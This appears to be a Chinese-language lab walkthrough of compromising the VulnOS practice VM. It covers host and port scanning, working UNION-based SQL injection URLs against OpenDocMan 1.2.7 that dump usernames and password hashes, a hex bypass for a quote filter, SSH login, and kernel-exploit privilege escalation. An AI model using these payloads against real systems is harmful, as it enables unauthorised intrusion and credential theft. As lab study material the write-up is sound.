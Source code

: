 # 一、信息收集

1. 主机发现，使用的是桥接网卡，192.168.0.103是宿主机ip，那么192.168.0.101就是靶机了
   
   ```shell
   sudo arp-scan -l
   ```
   
    ![1.png](./img/VulnOS/1.png)

2. 端口扫描，发现开放了22、80、6667三个端口
   
   ```shell
   nmap -sV -A -T4 -v -p- 192.168.0.101
   ```
   
    ![2.png](./img/VulnOS/2.png)

3. 扫描一下是否有主机漏洞，nmap扫描发现有sqli
   
   ```shell
   nmap --script=vuln 192.168.0.101
   ```
   
    ![3.png](./img/VulnOS/3.png)

4. nikto再扫描一下web漏洞，显示有CVE-2003-1418
   
   ```shell
   nikto -h http://192.168.0.101
   ```
   
    ![4.png](./img/VulnOS/4.png)

5. 访问一下web，首页界面与上一个靶机web首页是一样的，再访问一下nmap发现的存在sqli的jabc目录
    ![5.png](./img/VulnOS/5.png)

6. whatweb探测一下web信息，是drupal 7，web中间件apache 2.4.7，php 5.5.9，web服务器拓展mod dav 2
   
   ```shell
   whatweb http://192.168.0.101/jabc
   ```
   
    ![6.png](./img/VulnOS/6.png)

7. 搜索漏洞，如下，同样显示drupal 7版本存在sqli，其中drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)这个漏洞可以执行远程代码，但是尝试后没有成功
    ![7.png](./img/VulnOS/7.png)

8. 查看web页面前端源码，发现两处重要信息，jabcd0c页面可以使用guest/guest登录
    ![8.png](./img/VulnOS/8.png)
   
    ![9.png](./img/VulnOS/9.png)

# 二、getshell

1. 访问该页面，使用guest/guest成功登录，发现有个上传功能，但是做了白名单限制，几乎没有，该界面下方有版权信息OpenDocMan v1.2.7，也是用cms搭建的，搜索该版本cms漏洞，发现存在sqli，使用poc探测数据库版本信息和用户权限，发现系统为ubuntu 14.04，mysql 5.5.47，数据库权限为root
   
   ```shell
   http://192.168.0.101/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,concat(version(),0x3a,user()),3,4,5,6,7,8,9
   ```
   
    ![10.png](./img/VulnOS/10.png)

2. 获取数据库名，如下数据库名为jabcd0cs
   
   ```shell
   http://192.168.0.101/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,concat(database()),3,4,5,6,7,8,9
   ```
   
    ![11.png](./img/VulnOS/11.png)

3. 获取当前数据库的表名
   
   ```shell
   http://192.168.0.101/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,group_concat(table_name),3,4,5,6,7,8,9%20from%20information_schema.tables%20where%20table_schema=database()
   ```
   
    ![12.png](./img/VulnOS/12.png)

4. 查询odm_user表中的列名时发现没有回显，猜测应该是过滤了单引号，可以使用十六进制绕过
   
   ```shell
   http://192.168.0.101/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,group_concat(column_name),3,4,5,6,7,8,9%20from%20information_schema.columns%20where%20table_name=0x6F646D5F75736572%20and%20table_schema=database()
   ```
   
    ![13.png](./img/VulnOS/13.png)

5. 查询username、password字段的值，如下，成功获取到用户名和密码
   
   ```shell
    http://192.168.0.101/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,group_concat(username,0x3a,password),3,4,5,6,7,8,9%20from%20odm_user
   ```
   
     webmin:b78aae356709f8c31118ea613980954b
     guest:084e0343a0486ff05530df6c705c8bb4
   
   ```
   ![14.png](./img/VulnOS/14.png)
   ```

6. 解密后得到用户口令webmin/webmin1980，成功以管理员登录OpenDocMan，再Admin中添加文件类型，将text/x-php添加到文件白名单
    ![15.png](./img/VulnOS/15.png)

7. 在Admin——>Setting中找到上传路径
    ![16.png](./img/VulnOS/16.png)

8. 反弹shell失败，发现文件被强制转换成了dat文件，没有找到文件包含
    ![17.png](./img/VulnOS/17.png)

9. 尝试使用webmin用户登录ssh，成功获取shell
    ![18.png](./img/VulnOS/18.png)

# 三、权限提升

1. 查看系统内核版本
   
    ![19.png](./img/VulnOS/19.png)

2. 搜索该版本内核漏洞，发现第一个exp就可以
   
    ![20.png](./img/VulnOS/20.png)

3. 将exp脚本上传到靶机，使用gcc编译，执行exp，成功获取root权限
    ![21.png](./img/VulnOS/21.png)